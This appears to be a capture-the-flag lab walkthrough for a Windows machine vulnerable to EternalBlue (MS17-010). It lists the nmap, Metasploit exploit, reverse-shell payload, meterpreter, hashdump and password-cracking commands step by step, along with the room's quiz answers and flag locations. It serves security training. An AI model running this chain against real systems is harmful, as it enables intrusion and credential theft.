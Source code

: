 ## Enum: Scanning with nmap


### Task 1: Recon
The first request is to scan the machine. To do this we are going to use nmap to perform service version detection with the -sV option. This is going to probe the open ports. The command below will allow you to up your verbosity with -vv. 
```
nmap -sV -vv --script vuln *target*
```

![image](https://github.com/user-attachments/assets/f454e18e-f5d4-464b-9e43-41e31f399eed)

The output shows that:
- MSRPC (Microsoft Remote Procedure Call) is open on port 135
- netbios-ssn is open on port 139
- microsoft-ds is open on port 445

>**Question:** How many ports are open with a port number under 1000
>
>**Answer:** 3


>**Question:** What is the machine vulnerable to?
>
>**Answer:** ms17-010
There are a few vulnerabilities listed on this machine, but this is the answer THM is looking for. This is the EternalBlue vulnerability (CVE-2017-0143 through CVE-2017-0148) which allows for RCE. This vulnerability extends beyond MSFT Windows to any service that uses the Microsoft-SMBv1 server protocol. 

![image](https://github.com/user-attachments/assets/c48d686f-f003-4a5b-a511-b73145ee04e0)
This vulnerability allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." All those susceptible to this vulnerability are listed in the CVE:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
This vulnerability is rated as Critical by Microsoft, and a patch was published to remedy this back in 2017!
https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/


## Exploit: msfconsole
### Task 2: Gain Access

Run metasploit
```
msfconsole
```
Search for the exploit available to ms17_010
![image](https://github.com/user-attachments/assets/d1c9f9a0-a128-475c-b51c-97ba37a994a7)

>**Question:** find the exploitation code
>
>**Answer:** exploit/windows/smb/ms17_010_eternalblue

Select the exploit

```
use 0
```

Show options

```
show options
```

>**Question:** What value do you need to set?
>
>**Answer:** RHOSTS

![image](https://github.com/user-attachments/assets/df7a2aa9-9820-4da4-be9d-1d43e354763c)
![image](https://github.com/user-attachments/assets/f9066c2a-c8f5-4035-8f1c-9a4c867bf0bb)

```
set payload windows/x64/shell/reverse_tcp
```
Run the exploit

```
run
```

## Post-exploit: Gain Access
### Task 3: Escalate

We are now SYSTEM!

![image](https://github.com/user-attachments/assets/c717fb13-762f-4b65-96a1-f126e200c3fc)


Set the system shell to background (ctrl+z)
```
search shell_to_meterpreter
```

>**Question:** What is the name of the post module we will use?
>
>**Answer:** post/multi/manage/shell_to_meterpreter



![image](https://github.com/user-attachments/assets/d60d8397-52c8-4eb3-8ed6-f35d159dbf65)

Use the shell_to_meterpreter as seen above

```
use 0
```

list the sessions
```
sessions -l
```
![image](https://github.com/user-attachments/assets/331948b1-3689-405c-b6c2-8c072a327817)


>**Question:** What option are we required to change?
>
>**Answer:** SESSION

```
set session 1
```

```
run
```
Note: Wait forever for the run to complete, it should take time to process once it reads *'stopping exploit/multi/handler'*

![image](https://github.com/user-attachments/assets/063fea0b-8481-4736-a775-84734993deac)

List the sessions again, and select the meterpreter

```
sessions -i 3
```


```
getsystem
```
Confirm that you are running as system

Run hashdump cmd to get the non-default user
```
hashdump
```
### Task 4: Cracking

![image](https://github.com/user-attachments/assets/c385faec-8c9b-4415-8081-94b8a0570c70)

>**Question:** What is the name of the non-default user?
>
>**Answer:** jon


Running john the ripper, crack the hashed password


![image](https://github.com/user-attachments/assets/47e25664-d720-458b-b3ad-711bb1a338fa)

**Flag 1 at system root:**

![image](https://github.com/user-attachments/assets/1d4e82db-d442-4998-815e-7311fa47b6d0)

**Flag 2 at system32\config:**

![image](https://github.com/user-attachments/assets/5ffb90d4-957f-40a5-95f8-483c28affffa)

**Flag 3 at jon's docs:**

![image](https://github.com/user-attachments/assets/716c6eb3-124d-463b-bbc6-64967bfcd7e5)

## Complete!

![image](https://github.com/user-attachments/assets/520d8364-f9ab-4ee1-9744-b9e849e87986)



